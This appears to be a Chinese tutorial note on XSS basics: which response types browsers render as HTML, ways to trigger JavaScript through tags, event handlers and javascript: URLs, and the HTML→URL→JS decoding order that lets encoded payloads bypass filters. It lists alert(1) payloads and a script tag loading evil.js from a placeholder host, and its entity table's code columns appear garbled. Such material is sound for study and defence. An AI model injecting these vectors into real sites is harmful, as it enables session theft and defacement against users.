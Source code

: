 

# 浏览器什么时候会将响应内容当成 HTML 文档来解析

当响应的 `Content-Type`为以下时，浏览器就会将响应内容当成 HTML 文档来解析，这也是为什么纯API接口网站不存在XSS漏洞的原因（**Content-Type为application/json**）

- text/html
- application/xhtml+xml
- application/xml
- text/xml
- image/svg+xml





# 如何执行javascript

- script标签

```html
<script>alert(1)</script>
```

- 非script标签

  - 事件触发

    ```js
    <a href='' onclick='alert(1)'></a>
    <img src="x" onerror=alert(1);>
    ```

    [HTML DOM 事件对象 | 菜鸟教程](https://www.runoob.com/jsref/dom-obj-event.html)

  - `javascript:`  伪协议

    ```js
    <a href='javascript:alert(1)'></a>
    <iframe src=javascript:alert(1);></iframe>
    <form action="Javascript:alert(1)"><input type=submit>
    
    //IE7以下
    <img src=javascript:alert(1)>    
    ```

  - `script`标签的src属性，引入外来js文件

    ```js
    <script src="http://xxx/evil.js">
    ```





# 请求网页解码流程

- **HTML 编码/解码**

当浏览器接收到服务端发送来的二进制数据后，首先会对其进行HTML解码，呈现出来的就是我们看到的源代码。具体的解码方式依具体情况而定，所以我们需要在页面中指定编码，防止浏览器按照错误的方式解码，造成乱码。

但是在HTML中有些字符是和关键词冲突的，比如 `<`、`>`、`&`，解码之后，浏览器会误认为它们是HTML标签，如果希望正确地显示预留字符，就需要在HTML中使用对应的HTML字符实体。

字符实体是一个转义序列，它定义了一般无法在文本内容中输入的单个字符或符号。一个字符实体以一个&符号开头，后面跟着一个预定义的实体的名称，或用&#开头+实体编号+分号来表示。

常见的HTML字符实体有：

| 显示结果 | 描述   | 实体名称      | 实体编号 |
| -------- | ------ | ------------- | -------- |
|          | 空格   | ` `           | ` `      |
| <        | 小于号 | `<`           | `<`      |
| >        | 大于号 | `>`           | `>`      |
| &        | 和号   | `&`           | `&`      |
| "        | 引号   | `"`           | `"`      |
| '        | 撇号   | `'`(IE不支持) | `'`      |

但并不是所有的字符都有实体名称，但是它们都有自己的实体编号。

一个HTML解析器作为一个状态机，它从输入流中获取字符并按照转换规则转换到另一种状态。在解析过程中，任何时候它只要遇到一个 `<` 符号（后面没有跟 `/`符号）就会进入 **标签开始状态(Tag open state)** ，然后转变到 **标签名状态(Tag name state)** 、 **前属性名状态(before attribute name state)** ......最后进入 **数据状态(Data state)** 并释放当前标签的token。当解析器处于 数据状态(Data state) 时，它会继续解析，每当发现一个完整的标签，就会释放出一个token。

简单的说就是，浏览器对HTML解码之后就开始解析HTML文档，将众多标签转化为内容树中的DOM节点，此时识别标签的时候，HTML解析器是无法识别那些被实体编码的内容的，只有建立起DOM树，才能对每个节点的内容进行识别，如果出现实体编码，则会进行实体解码，只要是DOM节点里属性的值，都可以被HTML编码和解析。

所以在PHP中，使用htmlspecialchars()函数把预定义的字符转换为HTML实体，只有等到DOM树建立起来后，才会解析HTML实体，起到了XSS防护作用。

- **URL 解码**

URL编码是为了允许URL中存在汉字这样的非标准字符，本质是把一个字符转为%加上UTF-8编码对应的16进制数字。所以又称之为Percent-encoding。

在服务端接收到请求时，会自动对请求进行一次URL解码。

- **JavaScript 解码（只支持Unicode）**

当HTML解析产生DOM节点后，会根据DOM节点来做接下来的解析工作，比如在处理诸如 `<script>`、`<style>` 这样的标签时，解析器会自动切换到JavaScript解析模式，而 `src`、 `href` 后边加入的 javascript 伪URL，也会进入 JavaScript 的解析模式。

比如 `<a href="javascript:alert('\u0031')">test</a>`，JavaScript 出发了 JavaScript 解释器，JavaScript 会先对内容进行解析，里边有一个转义字符`\u0031`，前导的 u 表示他是一个unicode 字符，根据后边的数字，解析为“1”，于是在完成 JavaScript 的解析之后变成了 `<a href="javascript:alert('1')">test</a>`。

**下面用一个普通的XSS代码来说明一下浏览器对其解析的过程。**

- `<a href="javascript:alert('xss')">test</a>`

首先HTML解析器开始工作，并对href中的字符做HTML解码，接下来URL解析器对href值进行解码，正常情况下URL值为一个正常的URL链接，如：`https://www.baidu.com`，那么URL解析器工作完成后是不需要其他解码的，但是该环境中URL资源类型为Javascript，因此该环境中最后一步Javascript解析器还会进行解码操作，最后解析的脚本将被执行。

整个解析顺序为3个环节：HTML解码 —>URL解码 —>JS解码

我们可以对XSS攻击向量做这三种编码都可以成功弹框。
